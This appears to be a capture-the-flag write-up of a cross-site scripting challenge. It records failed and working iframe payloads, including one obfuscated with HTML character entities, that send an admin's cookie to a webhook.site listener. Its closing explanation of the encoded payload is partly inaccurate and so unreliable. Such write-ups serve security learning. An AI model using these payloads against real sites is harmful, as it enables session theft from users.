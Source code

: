 # xss
https://webhook.site/2170c7c8-949c-41d1-8479-5d10a976084e
1. pressing the send button sends a post request to api.php
```html
http://ctf.adl.tw:12005/api.php?method=send
```
2. objective is to get the cookie on the server
3. iframe causes admin to send a http request to a remote link.
4. We set up a remote listener to handle http requests. We can use this [site](https://webhook.site/?fbclid=IwAR0PzMsA8CMTLpCQfhtUV38Qbh5oS-bPvotRPBz9tJCoEjsDi5j-_qM2lok#!/15777b00-a93c-4ce3-a75e-5f8afc14e2a9/26af9310-e1a9-476a-9f80-ae7d80c3823f/1).

(We may also use csp bypass.)
# payloads tried
- v1 didn't work
```html
<b onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</b>
```
- v2 (can't use onload)
```html
<iframe onload="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
- v3 (can't use +)
```html
<iframe onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
Turns out we cannot use + in the payload.
- test
```html
"/> <script>alert(0)</script> <!--
```
- v5 worked
```html
<iframe src=javascript:document.location='https://webhook.site/5b057c82-404d-4e23-a94a-c0f5d17d9259/?flag='.concat(document.cookie)>
```
- v6 also worked, generated by ./generate_payload.py
```html
<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#102;&#101;&#116;&#99;&#104;&#40;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#119;&#101;&#98;&#104;&#111;&#111;&#107;&#46;&#115;&#105;&#116;&#101;&#47;&#50;&#49;&#55;&#48;&#99;&#55;&#99;&#56;&#45;&#57;&#52;&#57;&#99;&#45;&#52;&#49;&#100;&#49;&#45;&#56;&#52;&#55;&#57;&#45;&#53;&#100;&#49;&#48;&#97;&#57;&#55;&#54;&#48;&#56;&#52;&#101;&#63;&#102;&#108;&#97;&#103;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;&#46;&#116;&#104;&#101;&#110;&#40;&#40;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#41;&#32;&#61;&#62;&#32;&#123;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#46;&#106;&#115;&#111;&#110;&#40;&#41;&#59;&#125;&#41;&#46;&#99;&#97;&#116;&#99;&#104;&#40;&#40;&#101;&#114;&#114;&#111;&#114;&#41;&#32;&#61;&#62;&#32;&#123;&#99;&#111;&#110;&#115;&#111;&#108;&#101;&#46;&#108;&#111;&#103;&#40;&#39;&#110;&#111;&#39;&#41;&#59;&#125;&#41><iframe>
```
    The iframe element in this code is being used to load a script from a remote URL using the src attribute.  

    The URL is encoded using HTML character references, which are used to represent characters that are not part of the standard ASCII character set. For example, &#106; represents the letter "j", &#97; represents the letter "a", and so on.   

    When the HTML code is parsed by a web browser, these character references are converted back into their corresponding characters, so the src attribute in this iframe element would be interpreted as a URL that begins with "javascript:fetch(...".  

    The iframe element also contains a script that uses the fetch() function to retrieve data from the specified URL and then execute it as a JavaScript script. This can be a security risk, as it allows the script to potentially access and manipulate the current document and any data it contains. It's generally a good idea to avoid executing arbitrary scripts from untrusted sources in this way.